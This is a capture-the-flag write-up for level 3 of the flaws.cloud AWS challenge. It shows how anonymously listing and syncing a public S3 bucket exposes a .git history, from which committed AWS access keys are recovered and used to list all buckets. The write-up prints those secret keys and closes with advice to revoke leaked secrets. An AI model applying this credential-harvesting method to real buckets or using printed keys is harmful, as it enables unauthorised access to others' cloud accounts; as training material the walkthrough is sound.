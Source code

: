 # Flaws Cloud
### URl: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/

# Level 3
### The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.

# Writeup

When we try to list directory, it has given `.git` directory.

```
 $ aws s3api list-objects-v2 --bucket level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request --region us-west-2
...
{
    "Key": ".git/COMMIT_EDITMSG",
    "LastModified": "2017-09-17T15:12:24.000Z",
    "ETag": "\"5f8f2cb9c2664a23f08dd8a070ae7427\"",
    "Size": 52,
    "StorageClass": "STANDARD"
},
...
```

```
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2

... it will download all the files ...
```

Now, with `git log` we can get the commit history

```
$ git log
...
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

yay, there is a commit named as `Oops, accidentally added something I shouldn't have`. So there might be some juicy content in that file.

On checking difference between commits, we can see aws credentials.

```
$ git diff b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 f52ec03b227ea6094b04e43f475fb0126edb5a61
diff --git a/access_keys.txt b/access_keys.txt
new file mode 100644
index 0000000..e3ae6dd
--- /dev/null
+++ b/access_keys.txt
@@ -0,0 +1,2 @@
+access_key AKIAJ366LIPB4IJKT7SA
+secret_access_key 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
```

Using `aws config` we can configure new user's credentials.

If we list all the buckets, we can see all the buckets from level 1 to 6. But of course you can't cheat by going to leevl 5 or 6, because the creator already know about it, haha. It will say `Don't try to cheat and skip levels.`

```
$ aws s3api list-buckets
{
    "Buckets": [
        {
            "Name": "2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud",
            "CreationDate": "2017-02-12T21:31:07.000Z"
        },
        {
            "Name": "config-bucket-975426262029",
            "CreationDate": "2017-05-29T16:34:53.000Z"
        },
        {
            "Name": "flaws-logs",
            "CreationDate": "2017-02-12T20:03:24.000Z"
        },
        {
            "Name": "flaws.cloud",
            "CreationDate": "2017-02-05T03:40:07.000Z"
        },
        {
            "Name": "level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud",
            "CreationDate": "2017-02-24T01:54:13.000Z"
        },
        {
            "Name": "level3-9afd3927f195e10225021a578e6f78df.flaws.cloud",
            "CreationDate": "2017-02-26T18:15:44.000Z"
        },
        {
            "Name": "level4-1156739cfb264ced6de514971a4bef68.flaws.cloud",
            "CreationDate": "2017-02-26T18:16:06.000Z"
        },
        {
            "Name": "level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud",
            "CreationDate": "2017-02-26T19:44:51.000Z"
        },
        {
            "Name": "level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud",
            "CreationDate": "2017-02-26T19:47:58.000Z"
        },
        {
            "Name": "theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud",
            "CreationDate": "2017-02-26T20:06:32.000Z"
        }
    ],
    "Owner": {
        "DisplayName": "0xdabbad00",
        "ID": "d70419f1cb589d826b5c2b8492082d193bca52b1e6a81082c36c993f367a5d73"
    }
}
```

Next, level 4: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/

# How to stop this vulnerability
- People often leak AWS keys and then try to cover up their mistakes without revoking the keys. You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.
